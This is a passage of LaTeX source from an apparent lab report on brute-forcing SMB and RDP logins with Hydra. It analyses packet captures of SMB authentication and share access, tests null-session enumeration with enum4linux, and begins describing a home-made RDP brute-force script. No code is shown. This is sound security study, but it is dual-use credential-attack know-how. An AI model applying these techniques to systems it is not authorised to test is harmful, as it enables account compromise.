	
\includegraphics[scale=0.22]{images/smb8.png}
	\centering
	\caption{Viewing the secound Session Setup Response}
\end{figure}\abc
Interestingly, as seen in Figure 14, in frames 2778 to 2780, the authentication process is repeated—this time without a selected user or credentials. I was unable to determine the exact cause of this behavior. Initially, I assumed that Hydra was responsible for sending the request, but after reviewing the source code of the \texttt{smb2} module, I couldn’t identify anything that would explain it. I eventually concluded that this behavior is most likely caused by \texttt{libsmbclient} or some other internal mechanism within Hydra.\abc
This may be related to the \texttt{\$IPC} share, which is susceptible to being accessed through an anonymous null session. Such sessions can expose information about the operating system, available \texttt{SMB} shares, and the system's effective security policy. This can be tested using the tool \texttt{enum4linux}, which attempts to enumerate the system via a null session. However, on my Windows Server installation, null sessions are blocked by default, as shown in the results in Figure 15.\abc
Still, I am not entirely sure why this request is consistently sent by Hydra.\cite{smb-brute-forcing-tipps,noauthor_thc-hydrahydra-smb2c_nodate}
\begin{figure}[h]
	
\includegraphics[scale=0.21]{images/enum4linux.png}
	\centering
	\caption{Using \texttt{enum4linux} to get information about the system}
\end{figure}\newpage
\abc
If the authentication succeeds, the \texttt{NT Status} field in the header of the \texttt{Session Setup Response} is set to \texttt{STATUS\_SUCCESS}. This is followed by a \texttt{Tree Connect Request} to access a share on the server. Since I did not specify a share, Hydra defaults to the administrative share \texttt{\$IPC}, which is used to communicate with programs via named pipes over the network. \cite{noauthor_managing_2021} Both frames can be examined in Figures 16 and 17.
\begin{figure}[ht]
	
\includegraphics[scale=0.22]{images/smb9.png}
	\centering
	\caption{Viewing the successful Session Setup Response}
\end{figure}\abc
\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/smb10.png}
	\centering
	\caption{Viewing the Tree Connect Request}
\end{figure}\abc
\newpage
\abc
The \texttt{Tree Connect Request} is followed by a \texttt{Tree Connect Response}, which includes an Access Mask field for the requested share, showing the permissions our user has on this share, as shown in Figure 18.
\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/smb11.png}
	\centering
	\caption{Viewing the Tree Connect Response}
\end{figure}\abc \newpage
\subsection{Brute-Forcing RDP}
\texttt{RDP} is a proprietary protocol developed by Microsoft that allows a user to connect to another computer with a graphical interface. The user utilizes an \texttt{RDP} client, while the target machine must be running \texttt{RDP} server software. \cite{noauthor_remote_2024}\abc
However, Hydra did not detect my installation of \texttt{libfreerdp3}, even though the package was already installed, as shown in Figures 19 and 20. Therefore, I decided to create my own simple Python RDP brute-forcing script based on the \texttt{xfreerdp3} command.
\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/hydranordp.png}
	\centering
	\caption{Hydra showing that it's not compiled with freerdp support}
\end{figure}\abc
\begin{figure}[h]
